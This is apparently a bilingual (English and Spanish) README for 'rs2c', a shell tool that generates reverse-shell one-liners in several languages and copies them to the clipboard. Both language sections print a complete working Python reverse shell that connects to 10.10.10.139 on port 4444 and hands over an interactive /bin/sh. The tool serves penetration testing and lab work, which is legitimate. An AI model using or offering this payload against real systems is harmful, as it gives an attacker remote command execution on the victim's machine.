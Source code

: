 # Reverse Shell to Clipboard ~ English

Reverse Shell to Clipboard is a tool that will facilitate the task of creating a reverse shell according to the programming language you need.
## Installation

You can use it directly as a sh or for quick access you can copy into
/usr/local/bin


## Usage

If you don't have it copied to /usr/local/bin you will have to use it as ./rs2c inside the folder where it is hosted.
If you have it copied to /usr/local/bin you can use it from any folder with rs2c command.
You can generate a reverse shell for the following languages: 
java, bash, perl, python, php, ruby and for netcat

```bash
$ rs2c python 10.10.10.139 4444
>[*] Reverse shell copied to clipboard 
```
If you now paste it with Ctrl + Shift + v you will see the following
```bash
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.10.139',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);' 
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.


# Reverse Shell to Clipboard ~ Español

Reverse Shell to Clipboard es una herramienta que te facilitará la tarea de crear una reverse shell según el lenguaje de programación que necesites.
## Instalación

Puedes usarlo directamente como un sh o para un acceso rápido puedes copiarlo en 
/usr/local/bin


## Uso

Si no lo tienes copiado en /usr/local/bin, tendrás que usarlo como ./rs2c dentro de la carpeta donde está guardado.
Si lo has copiado en /usr/local/bin, puedes usarlo desde cualquier carpeta con el comando rs2c
Puedes generar un reverse shell para los siguientes lenguajes:
java, bash, perl, python, php, ruby y para netcat

```bash
$ rs2c python 10.10.10.139 4444
>[*] Reverse shell copied to clipboard 
```
Si ahora pulsas Ctrl + Shift + v verás lo siguiente:
```bash
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.10.139',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);' 
```

## Contribución
Los pull requests son bienvenidos. Para cambios importantes, por favor abre un "issue" primero para hablarlo y veremos como aplicar el cambio.

